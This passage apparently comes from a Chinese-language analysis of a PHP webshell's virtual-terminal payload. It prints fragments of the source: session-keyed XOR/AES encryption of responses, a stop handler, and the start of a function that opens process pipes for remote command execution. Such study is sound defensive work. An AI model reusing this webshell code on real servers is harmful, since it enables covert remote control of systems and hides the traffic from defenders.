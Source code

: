 ```php
        session_write_close();
        $result["status"] = "success";	// 默认写入成功
    }
    else if ($type == "stop") {	// 停止终端
        @session_start();
        $_SESSION["run"] = false;
        session_write_close();
        $result["msg"] = "stopped";
        $result["status"] = "success";	// 默认停止成功
    }

    $result["status"] = base64_encode($result["status"]);	// 返回执行状态和内容
    $result["msg"] = base64_encode($result["msg"]);
    echo encrypt(json_encode($result),$_SESSION['k']);
}

function getSafeStr($str){
    // 最终均以utf-8输出
    $s1 = iconv('utf-8','gbk//IGNORE',$str);
    $s0 = iconv('gbk','utf-8//IGNORE',$s1);
    if($s0 == $str){
        return $s0;
    }else{
        return iconv('gbk','utf-8//IGNORE',$str);
    }
}

function encrypt($data,$key){
	if(!extension_loaded('openssl')){
    	for($i=0;$i<strlen($data);$i++) {
    		$data[$i] = $data[$i]^$key[$i+1&15];
    	}
		return $data;
    }else{
    	return openssl_encrypt($data, "AES128", $key);
    }
}
```

用if分别对应了4种请求，create创建管道：

```php
function create($bashPath){
    set_time_limit(0);
    @session_start();
    $_SESSION["readBuffer"] = "";
    session_write_close();
    $win = (FALSE !== strpos(strtolower(PHP_OS), 'win'));
    if ($win) { // 获取系统临时文件夹绝对路径（有可读写权限）
        $outputfile = sys_get_temp_dir() . DIRECTORY_SEPARATOR . rand() . ".txt";
        $errorfile = sys_get_temp_dir() . DIRECTORY_SEPARATOR . rand() . ".txt";
    }

    // 设置进程读写管道
    $descriptorspec = array(
        0 => array(
            "pipe",
            "r"
        ),
        1 => array(
            "pipe",
            "w"
        ),
        2 => array(
```